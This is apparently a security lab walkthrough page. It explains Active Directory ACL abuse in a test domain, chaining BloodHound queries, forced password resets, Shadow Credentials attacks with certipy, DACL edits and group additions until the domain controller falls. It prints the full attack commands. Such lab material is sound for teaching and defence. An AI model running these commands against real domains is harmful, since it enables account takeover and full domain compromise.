

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/ACLAbuse/index.html · generator: mkdocs

#ACLs

WAD uses ACLs in what are called object's Security Descriptors in order to define object access. These ACLs hold information on which Security Principals have what type of access to the object in question. ACLs can be exploited by attackers. For example, imagine that the attacker compromises an account A, and this account A holds determined access rights to an object B. This way, if access rights are powerful enough, the attacker may also compromise object B using account A. This is the basic principle of ACL attacks. Now, let's get to concrete examples.

We've previously gathered information and uploaded it to BloodHound on the BloodHound section. Let's query our information for ACL paths, to get a better look at what can be done. Use the following Cypher query:
```
MATCH p=(u)-[r1]->(n)
WHERE r1.isacl = true
  AND u.admincount = false
  AND NOT toLower(u.name) CONTAINS 'key'
  AND toLower(u.domain) = "north.altair.local"
  AND NOT toLower(u.name) CONTAINS 'ras and ias servers'
  AND NOT toLower(n.name) CONTAINS 'ras and ias servers'
  AND NOT toLower(u.name) CONTAINS 'samaccountname'
  AND NOT toLower(n.name) CONTAINS 'samaccountname'
RETURN p
```

This shows us different nodes and links. These nodes are our Security Principals, and the links between them represent different access rights, defined by ACLs. Through the BloodHound GUI we can determine that there's a path from the Skyler White user, all the way to the CAPTAIN machine!
First, we notice that Skyler has a 'ForceChangePassword' link to Jesse. This indicates that Skyler can change Jesse's password! Since we've compromised Skyler's account earlier, we can now compromise Jesse's by changing it's current password:
```
net rpc password jesse.pinkman -U north.altair.local/skyler.white%Password123 -S captain.north.altair.local
#introduce the password, for example ThisIsANewPassword10
#now confirm if the password was correctly altered
crackmapexec smb 192.168.122.10 -u jesse.pinkman -d north.altair.local -p ThisIsANewPassword10
```
From jesse’s account, we can compromise walter.white’s account, since jesse holds the 'GenericWrite' access right over it. This means that Jesse can alter Walter's attributes. This allows for the Shadow Credentials attack, seen in our ADCS section. We can therefore  retrieve Walter's hashes and a TGT in his name through this attack, as Jesse.
```
certipy shadow auto -u jesse.pinkman@north.altair.local -p ThisIsANewPassword10 -account 'walter.white'
```

And we've compromised Walter's account! Let's see what we can do from here. It seems Walter has the ability of modifying Hank's own ACL! This means the attacker, as Walter, can give theirself other types of access to Hank, such as 'FullControl' access! Then, we can perform the Shadow Credentials attack once more, as 'FullControl' access gives Walter (yes, you've guessed it) full control over Hank's user account! One can also change Hank's password as we've done before. I'll let you decide this one for yourself.

```
#we can check walter's current rights on hank, please use set the KRB5CCNAME env var to the .ccache file retrieved in the last step
dacledit.py -no-pass -hashes :<NT hash from previous attack> -action 'read' -principal walter.white -target 'hank.schrader' 'north.altair.local'/'walter.white'
#add FullControl right to walter
dacledit.py -no-pass -hashes :<NT hash from previous attack> -action 'write' -rights 'FullControl' -principal walter.white  -target 'hank.schrader' 'north.altair.local'/'walter.white'
#we can check walter's new access rights on hank's account
dacledit.py -no-pass -hashes :<NT hash from previous attack> -action 'read' -principal walter.white -target 'hank.schrader' 'north.altair.local'/'walter.white'
#you can use the shadow credentials attack once again, this time using walter's account and targeting hank's
certipy shadow auto -u walter.white@north.altair.local -hashes :<NT hash from previous attack> -account 'hank.schrader'
```

Once you've compromised Hank's account, you can use it to add members to the 'Masters' security group! It seems that this group has 'GenericAll' access rights over the DC!

```
# Add skyler.white to the Masters group
ldeep ldap -u hank.schrader -H ':<NT hash from previous attack>' -d north.altair.local -s ldap://192.168.122.10 add_to_group "CN=Skyler White,CN=Users,DC=north,DC=altair,DC=local" "CN=Masters,CN=Users,DC=north,DC=altair,DC=local"

#Confirm that skyler is now part of the masters group
ldeep ldap -u hank.schrader -H ':<NT hash from previous attack>' -d north.altair.local -s ldap://192.168.122.10 membersof 'Masters'
```
Now, all thanks to misconfigured ACLs with over-permissive access rights granted to low-privileged accounts,  the attacker can compromise the domain:
```
certipy shadow auto -u skyler.white@north.altair.local -p 'Password123' -account 'captain$'
#now you can use the secretsdump.py script with either the hashes or the TGT received from the shadow credentials attack
```
